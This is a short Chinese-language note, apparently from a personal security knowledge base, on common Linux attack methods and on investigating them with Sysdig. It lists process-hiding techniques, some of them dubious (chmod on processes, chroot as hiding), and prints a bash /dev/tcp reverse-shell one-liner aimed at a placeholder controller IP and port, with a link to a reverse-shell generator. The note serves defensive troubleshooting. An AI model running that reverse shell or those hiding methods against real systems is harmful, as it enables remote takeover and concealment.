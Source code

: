 ```yaml
---
title: 常见攻击手段和排查
---
```

包含 nc 反弹shell 等常见攻击手段 使用Sysdig进行排查



Sysdig : Open Source Universal System Visibility With Native Contaier Support.

虽然 Linux 有很多系统分析和调优的工具 如strace、tcpdump、htop、iftop、lsof、netstat，但是它们一般都负责某个特殊的功能，并且使用方式有很大的差异，如果要分析和定位问题，一般都需要熟练掌握需要命令的使用。而且这些工具的数据无法进行共享，只能相互独立工作。Sysdig 一个工具就能实现上述所有工具的功能，并且提供了统一的使用语法。



CPU、Memory、Disk IO、网络 IO•支持各种 IO 活动：进程、文件、网络连接等

来分析这些数据



Sysdig 有着类似于 tcpdump 的过滤语法，用户可以随意组合自己的过滤逻辑，用户还可以自己编写 Lua 脚本来自定义分析逻辑，基本上不受任何限制。



https://mp.weixin.qq.com/s/j4vfelk1Eu-rl2s8B70_CQ







Linux 隐藏进程的方法有以下几种：

- 修改进程名：通过修改进程名，使进程不易被发现。可以使用命令行工具如 ps、top 来查看进程名。修改进程名可以使用命令 prctl 或 setproctitle。

- 修改进程所在目录：可以将进程所在目录修改为一个隐藏目录，使进程不易被发现。可以使用 chroot 命令将进程所在目录修改为一个隔离的目录。

- 修改进程权限：可以修改进程的权限，使其只能被 root 用户或者某个特定用户访问。可以使用 chmod 命令修改进程权限。

- 使用 rootkit 技术：rootkit 是一种用于隐藏进程和文件的恶意软件。可以使用 rootkit 技术隐藏进程。


反弹shell
一个反弹shell生成器 https://github.com/0dayCTF/reverse-shell-generator

例如：
```bash
bash -i >& /dev/tcp/控制端IP/控制端端口 0>&1
```
这个命令的作用是将标准输入、输出和错误重定向到一个 TCP 连接，从而实现反弹 shell。具体来说，该命令将标准输出和错误输出都重定向到一个 TCP 连接，并将标准输入重定向到标准输出和错误输出的合并，从而使得攻击者可以通过控制端口向目标机器发送命令并获取输出，实现反弹 shell 的效果。  
https://unix.stackexchange.com/questions/521596/what-does-the-01-shell-redirection-mean